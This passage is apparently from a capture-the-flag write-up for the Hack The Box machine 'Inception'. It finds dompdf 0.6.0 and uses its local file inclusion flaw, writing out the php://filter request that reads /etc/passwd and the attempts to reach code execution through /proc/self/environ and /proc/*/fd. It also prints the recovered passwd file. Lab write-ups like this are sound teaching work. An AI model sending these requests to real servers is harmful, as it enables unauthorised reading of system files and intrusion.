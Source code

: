 Navigating to http://inception.htb/dompdf, we are able to view a directory listing of the files. From there, we are able to find a file named "version". Navigating to http://inception.htb/dompdf/version, we are able to find out that the version of dompdf that is being used would be 0.6.0
![Version of dompdf used](./Images/dompdf_version.png)

## Exploit
### LFI on dompdf
Looking up exploitdb, we can see from [here](https://www.exploit-db.com/exploits/33004) that there is an LFI exploit for dompdf 0.6.0.

Let us try to read the /etc/passwd file using the LFI vulnerability that we have found. To do so, we will send a GET request to http://inception.htb/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/etc/passwd. From the response, we are able to find a base64-encoded text which decodes to be the contents of the /etc/passwd file. 

![Demonstrating LFI](./Images/lfi.png)

Since we can do an LFI exploit, we will attempt to escalate the LFI exploit to become an rce using /proc/self/environ or /proc/*/fd. Unfortunately, both of them returns a status code 500 and we are unable to exploit it. 

![Attempting to exploit LFI using /proc/self/environ](./Images/lfi_proc_self_environ.png)
![Attempting to exploit LFI using /proc/1/fd](./Images/lfi_proc_1_fd.png)

Next, we will use a python script to save the list of linux files from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/Linux-files.txt) to our local directory. We will then inspect the files in detail to check for any potential exploitation.

Looking at the /etc/passwd file that we have extracted using the LFI vulnerability on the website, we can know that there is a user ```cobb``` on the server.

```
/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
cobb:x:1000:1000::/home/cobb:/bin/bash
```
